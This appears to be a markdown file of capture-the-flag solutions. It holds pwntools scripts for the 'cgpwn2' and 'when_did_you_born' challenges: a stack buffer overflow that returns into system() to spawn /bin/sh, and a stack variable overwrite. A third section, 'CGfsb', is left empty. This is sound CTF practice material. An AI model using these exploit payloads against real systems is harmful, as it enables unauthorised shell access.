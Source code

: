# cgpwn2
```python
from pwn import*
p=remote('111.198.29.45','43090')

naddr=0x804a080
sysaddr=0x8048420

pay='a'*(0x26+4)+p32(sysaddr)+'a'*4+p32(naddr)

p.recv()
p.sendline('/bin/sh\x00')

p.recv()
p.sendline(pay)

p.interactive()
```

# when_did_you_born

```python
from pwn import *
p=remote('111.198.29.45',38206)
pay1='1999'
pay2='a'*8+p64(1926)
p.recvuntil('?')
p.sendline(pay1)
p.recvuntil('?')
p.sendline(pay2)
p.interactive()
```

# CGfsb

```python

<!--stackedit_data:
eyJoaXN0b3J5IjpbOTM2MTIyNzM0XX0=
-->